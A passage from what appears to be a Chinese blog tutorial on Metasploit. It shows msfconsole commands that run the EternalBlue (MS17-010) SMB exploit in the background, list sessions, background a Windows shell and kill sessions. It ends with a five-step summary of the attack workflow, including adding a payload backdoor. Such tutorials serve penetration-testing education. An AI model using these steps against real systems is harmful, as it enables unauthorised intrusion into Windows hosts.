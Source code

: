 ctrl+c 关闭链接

y

![](https://img-blog.csdnimg.cn/img_convert/00b49a0c52e00c7f0bd8feb0b4331eb2.png)

通过会话进行连接目标机

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit -j
```

-j 表示后台执行 渗透目标完成后会创建一个 session 我们可以通过 session 连接目标主机。

![](https://img-blog.csdnimg.cn/img_convert/125d4763f1c39a254495928cf433ad8b.png)

```c#
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions
```

![](https://img-blog.csdnimg.cn/img_convert/418cee8090ebe5a16219166b33cf9e3d.png)

通过会话 ID 进入会话

![](https://img-blog.csdnimg.cn/img_convert/955d6e3b60ce936d85d546ee1bd4dc01.png)

或者使用 background 退出会话将会话保存到后台并查看

```c#
C:\Windows\system32>background

Background session 2? [y/N]  y
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions
```

![](https://img-blog.csdnimg.cn/img_convert/00f54f3f34d491107db529588f80bbed.png)

根据ID结束会话

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -k 2
```

![](https://img-blog.csdnimg.cn/img_convert/a432b1e2d1ede6c3a49b0928795d36ee.png)

## 总结

总结使用 metasploit 攻击的步骤

1. 查找 CVE 公布的漏洞
2. 查找对应的 exploit 模块
3. 配置模块参数
4. 添加 payload 后门
5. 执行 exploit 开始攻击
